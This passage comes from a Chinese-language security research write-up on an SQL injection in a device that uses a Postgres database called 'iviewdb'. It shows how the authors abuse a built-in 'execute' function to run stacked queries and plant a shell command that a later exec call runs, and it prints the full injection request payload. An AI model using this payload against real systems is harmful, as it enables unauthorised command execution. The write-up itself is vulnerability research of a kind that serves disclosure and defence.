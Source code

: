 现在的问题是，我们如何通过第一个语句的结果集来控制第二个`SELECT`语句的结果集？我们是否可以通过第一次查询的返回值，在第二次查询中触发SQLi？由于构造语句时采用了字符串拼接方式，因此理论上这种方法可行。然而不幸的是，在花了大量精力构造这类payload后，我们还是无法获取所需的结果。简要分析payload的处理过程后，我们发现payload在达到第二个查询前已经被转义过。由于函数通过新的CSC请求触发，因此会自动经过前文提到的转义逻辑进行处理。

### <a class="reference-link" name="%E6%AD%A2%E6%AD%A5%E4%BA%8ESQLi%EF%BC%9F%E7%BB%9D%E4%B8%8D%E8%A8%80%E8%B4%A5"></a>止步于SQLi？绝不言败

为了实现注入点的有效利用，我们深入分析了其中涉及的相关组件。在前期利用阶段，我们已经完整dump出`iviewdb`数据库，当我们发现其中并没有包含任何有用信息后，我们就没有仔细观察其中内容。重新观察该数据库后，我们注意到设备会使用大量数据库中的某个功能：用户定义函数。

我们可以通过用户定义函数的方式来定义自己的SQL函数，从而扩展预定义的数据库操作。我们可以通过Postgres自己的语言（PL/pgSQL）来完成该任务。这类函数对我们的攻击场景非常有用，因此我们可以在`SELECT`语句中内联调用前面定义的函数。调用语法与其他SQL函数相同，即`SELECT my_function(param1, param2) FROM table;`。

因此现在我们的思路是，已有的用户定义函数可能可以用来执行堆叠查询。如果函数中没有正确过滤SQL语句，那么就满足这个利用条件。我们遍历了数据库dump文件，发现满足该模式的多个代码块。令我们惊讶的是，我们找到了执行任意语句的一个简单方法：`execute`函数。该代码只接受一个参数，会作为SQL语句直接执行，没有经过进一步检查。

```
CREATE FUNCTION execute(query text) RETURNS void
    LANGUAGE plpgsql
    AS $$ 
BEGIN
    execute query;
EXCEPTION
    WHEN OTHERS THEN
           RAISE NOTICE 'Exception Occured while executing : %', query;
END
$$;
```

理论上这个函数可以允许我们在`mergequarantine_manage`的`SELECT`查询中执行`INSERT`语句，以便在表`tblquarantinespammailmerge`中添加数据库行，最终用在`manage_quarantine`的`exec`调用中。

[![](https://p3.ssl.qhimg.com/t01b1d03b89e5c29f2f.png)](https://p3.ssl.qhimg.com/t01b1d03b89e5c29f2f.png)

图14. 通过`SELECT`语句中的`execute`函数触发`INSERT`语句

经过一番摸索后，我们成功构造出正确的payload，如下所示：

```
mode=2531&amp;
release=&lt;@base64_0&gt;
hdnSender=s@s.com
&amp;hdnRecipient=r@r.com&amp;

hdnFilePath=
    H' UNION SELECT
        'a' || execute('
            DELETE FROM tblquarantinespammailmerge where messageid = chr(97);
            INSERT INTO tblquarantinespammailmerge(messageid,sender,recipient,subject,quarantinearea,destdomain) values(chr(97), chr(66), \'r@r.com\', chr(69), encode(decode(\'&lt;@base64_1&gt;; sleep 10; echo test.eml&lt;@/base64_1&gt;\', \'base64\'), \'escape\'), 1)
            ') as messageid,
        'b' as reason,
        'as' as isavas
               UNION SELECT messageid,'b' as reason, 'c' as isavas FROM  tblquarantinespammailmerge where quarantinearea='&amp;hdnDestDomain=DESTDOMAIN
&lt;@/base64_0&gt;
```
